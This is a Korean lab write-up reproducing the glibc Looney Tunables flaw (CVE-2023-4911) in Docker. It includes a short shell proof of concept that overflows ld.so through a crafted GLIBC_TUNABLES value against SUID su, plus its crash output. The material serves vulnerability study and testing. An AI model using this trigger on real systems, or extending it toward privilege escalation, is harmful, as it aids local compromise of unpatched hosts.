

# CVE-2023-4911 재현 보고서 
## 1. 취약점 요약 

Looney Tunables(CVE-2023-4911)는 GNU C Livrary(glibc)의 동적 로드인 ld.so에서 발생하는 로컬 권한 상승 취약점이다. 
공식적으로 glibc 2.34 ~ 2.38 버전에 영향을 미친다. 예외적으로 RHEL 8 계열은 보안 패치의 백포트과정에서 취약 코드가 포함됨에 따라 RHEL 8.5 이상 버전에서도 영향을 미친다.

## 2. 환경 구성 

다음 명령어를 실행해 실습 환경을 시작한다.
```bash
docker compose up --build --abort-on-container-exit --exit-code-from looney-tunables
```

## 3. 취약 조건

취약점을 재현하기 위해서는 필요한 조건
- 취약한 glibc(2.34 이상 2.39 미만)
- `GLIBC_TUNABLES` 환경 변수 제어 가능
- SUID 프로그램 실행 가능

이 실습에서는 사용자인 nobody가 SUID-root인 /usr/bin/su를 실행하여 취약 조건을 만족하였다.

## 4. 재현 절차

환경을 실행한 후 PoC를 수행하여 취약점을 재현하였다.
재현이 성공하면 다음과 같은 메시지가 출력되고 종료 코드는 0이다.

```text
[PASS] vulnerable ld.so crashed with SIGSEGV (exit 139)

실습 이후 컨테이너 정리를 위해 다음 명령어를 사용한다.
```bash
docker compose down --rmi local --volumes --remove-orphans
```

## 5. PoC 코드

PoC는 GLIBC_TUNABLES 환경 변수를 조작하여 취약점을 재현한다.

```sh
padding=$(printf '%08192x' 1)
env -i \
  'GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A' \
  "Z=$padding" \
  /usr/bin/su --help
```

GLIBC_TUNABLES에 조작된 값을 전달해 ld.so의 버퍼 오버플로우를 유발하고 /usr/bin/su 실행 시 SIGSEGV가 발생하면 취약점이 재현된 것으로 확인한다.
  
## 6. 실행 결과

PoC 실행 결과 ld.so에서 SIGSEGV가 발생하였으며, [PASS] 메시지를 통해 취약점이 정상적으로 재현되었음을 확인하였다.

실행 결과는 다음과 같다.

